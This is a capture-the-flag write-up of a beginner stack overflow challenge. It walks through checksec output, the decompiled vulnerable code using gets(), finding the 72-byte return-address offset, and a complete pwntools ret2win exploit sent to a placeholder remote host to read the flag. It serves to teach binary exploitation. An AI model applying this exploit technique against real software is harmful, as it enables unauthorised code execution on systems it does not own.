

# CTF Write-up: Stack Overflow

> Event: CTF challenge (beginner tier)
> Category: Pwn — Stack-based buffer overflow
> Difficulty: ★★☆☆☆ (easy)

---

## Challenge Metadata

| Field | Value |
|-------|-------|
| Event | CTF (beginner) |
| Category | Binary Exploitation (Pwn) |
| Points | 100 |
| Solves | 200+ |
| Difficulty | Easy |

## The Challenge

I was given a 64-bit ELF binary and a remote endpoint. The binary reads user input and prints it back. The goal: get a shell on the remote server.



*The five-phase solve: recon, find offset, build payload, send exploit, get flag. This is the canonical ret2win pattern — the simplest possible stack overflow exploit.*

---

## Phase 1 — Reconnaissance

First, I checked the binary's security mitigations:

```bash
$ checksec --file=./challenge
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
```

Key findings:
- **No stack canary** — I can overflow the buffer without worrying about a canary check.
- **No PIE** — The binary's code is at a fixed address (`0x400000`). I don't need to leak a code pointer.
- **NX enabled** — I can't inject shellcode and execute it directly. I'll need to use ROP or ret2win.
- **Partial RELRO** — GOT is writable, but I probably won't need GOT overwrite for this challenge.

Next, I loaded the binary into Ghidra and looked at `main`:

```c
void win() {
    system("cat flag.txt");
}

int main() {
    char buf[64];
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    printf("Enter your name: ");
    gets(buf);          // ← the vulnerability
    printf("Hello, %s\n", buf);
    return 0;
}
```

There it is:
1. `gets(buf)` — the classic stack overflow vulnerability. It reads unlimited input into a 64-byte buffer.
2. `win()` function exists at `0x4011a6` — but `main` never calls it. This is a textbook **ret2win** challenge.

---

## Phase 2 — Find the Offset

I needed to know how many bytes of input it takes to overwrite the return address. The buffer is 64 bytes, but there's also the saved RBP (8 bytes) between the buffer and the return address. Total offset: `64 + 8 = 72` bytes.

To confirm, I used `pwntools`'s `cyclic` pattern:

```python
from pwn import *
context.arch = 'amd64'

p = process('./challenge')
p.sendlineafter(b'name: ', cyclic(200))
p.wait()
```

The process crashed with RIP = `0x6261616a`. Then:

```python
>>> cyclic_find(0x6261616a)
72
```

Confirmed: the offset to the return address is **72 bytes**.

---

## Phase 3 — Build the Payload

The payload structure:

```
[72 bytes of padding] [ret gadget for alignment] [address of win()]
```

I needed the `ret` gadget for **stack alignment**. On x86-64, the stack must be 16-byte aligned before a `call` instruction. If I overwrite the return address with `win()` directly, the stack is misaligned when `system()` executes its `movaps` instruction, and it crashes. A bare `ret` gadget (which just pops the next address off the stack) realigns it.

```python
from pwn import *

context.arch = 'amd64'
elf = ELF('./challenge')

# Find a 'ret' gadget for stack alignment
ret_gadget = next(elf.search(asm('ret')))
log.info(f"ret gadget @ {hex(ret_gadget)}")
log.info(f"win() @ {hex(elf.symbols['win'])}")

offset = 72
payload = flat(
    b'A' * offset,
    ret_gadget,              # stack alignment
    elf.symbols['win'],      # return to win()
)

log.info(f"Payload length: {len(payload)} bytes")
```

Output:
```
[*] ret gadget @ 0x40101a
[*] win() @ 0x4011a6
[*] Payload length: 88 bytes
```

---

## Phase 4 — Send the Exploit

```python
p = process('./challenge')
p.sendlineafter(b'name: ', payload)
p.interactive()
```

Local test output:
```
Enter your name: AAAA...AAAA@
Hello, AAAA...AAAA@
flag{test_flag_local}
```

It worked locally. Now for the remote:

```python
p = remote('challenge.ctf.example.com', 1337)
p.sendlineafter(b'name: ', payload)
p.interactive()
```

---

## Phase 5 — Get the Flag

```
$ cat flag.txt
flag{st4ck_0v3rfl0w_w1n}
```

---

## Flag

```
flag{st4ck_0v3rfl0w_w1n}
```

---

## Takeaways

- **Always check for `win()` functions.** When a binary has a function that prints the flag but is never called, the challenge is almost certainly ret2win. This is the easiest possible pwn challenge pattern.
- **Stack alignment matters on x86-64.** If your exploit crashes inside `system()` or `printf()` with a `SIGSEGV` on `movaps`, it's a stack alignment issue. Add a bare `ret` gadget before the target function address. This is the #1 reason a working local exploit fails on the remote.
- **`gets()` is always vulnerable.** If I see `gets()` in a disassembly, the challenge is a stack overflow. No exceptions. `gets()` was deprecated in C99 and removed in C11 precisely because it cannot be made safe.
- **`checksec` before anything else.** The 30 seconds spent running `checksec` determines the entire exploit strategy. No canary + no PIE = trivial ret2win. Canary + PIE = need a leak first. Full RELRO = can't overwrite GOT, need to target other function pointers.
